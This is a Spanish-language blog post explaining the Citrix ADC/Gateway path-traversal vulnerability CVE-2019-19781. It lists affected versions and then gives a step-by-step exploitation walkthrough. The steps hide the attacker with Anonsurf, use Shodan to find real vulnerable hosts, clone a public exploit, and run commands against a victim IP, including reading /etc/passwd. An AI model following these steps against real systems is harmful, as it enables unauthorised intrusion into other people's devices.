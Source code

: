 ```yaml
---
layout: single
title: Explotación de CVE-2019-19781 - Vulnerabilidades
excerpt: "Una vulnerabilidad de cruce de directorio de Citrix Application Delivery Controller (ADC) y Gateway, que puede llevar a la ejecución remota de código sin credenciales."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2019-19781/cve-2019-19781.png
  teaser_home_page: true
  icon: /assets/images/citrix.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2019-19781
  - Citrix
  - Shodan
  - exploit-db
  
---
```


![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-19781.png)

## Descripción

La vulnerabilidad en cuestión se corresponde con un ataque de directorio transversal que permitía a un atacante ejecutar de forma remota código arbitrario en varias versiones de los productos ADC y Gateway de Citrix, así como en versiones antiguas de Citrix SD-WAN WANOP.

Está valorada como crítica, con una puntuación de 9.8 y fue descubierta por el investigador Mikhail Klyuchnikov, trabajador de la empresa Positive Technologies, quien reportó de manera ética la incidencia siguiendo el procedimiento de publicación responsable aplicable en estos casos.

•	Tipo: Limitación incorrecta de nombre de ruta a un directorio restringido (Path Traversal)

•	Gravedad: Alta

•	Fecha publicación: 27/12/2019

•	Última modificación: 08/01/2020

# Productos Afectados:

•	Citrix ADC y Citrix Gateway versión 13.0 todas las compilaciones compatibles
•	Citrix ADC y NetScaler Gateway versión 12.1 todas las compilaciones compatibles
•	Citrix ADC y NetScaler Gateway versión 12.0 todas las compilaciones compatibles
•	Citrix ADC y NetScaler Gateway versión 11.1 todas las compilaciones compatibles
•	Citrix NetScaler ADC y NetScaler Gateway versión 10.5 todas las compilaciones compatibles
 
# Explotación:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato

•	Anonsurf start

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197811.png)

Buscamos en la página Expoit Database, un exploit referente a la vulnerabilidad.

•	https://www.exploit-db.com/

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197812.png)

En la página de Shodan buscamos equipos con esta vulnerabilidad para ser vulnerados.

•	https://www.shodan.io/

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197813.png)

Se realiza la clonación del repositorio del exploit desde la página de GitHub.

•	Git clone https://github.com/projectzeroindia/CVE-2019-19781

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197814.png)

Ingresamos al directorio del Exploit descargado.

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197815.png)

Dentro del directorio ejecutamos el siguiente comando.

•	python3 cve-2019-19781_scanner.py <IP DE LA VICTIMA> <PUERTO>

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197816.png)

Finalmente se evidencia que fue vulnerable y lista los directorios del dispositivo.

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197817.png)

Probamos ejecutando otro comando.

•	bash CVE-2019-19781.sh <IP VICTIMA> 'cat /etc/passwd'

![](/assets/images/vulnerabilidades/cve-2019-19781/cve-2019-197818.png)




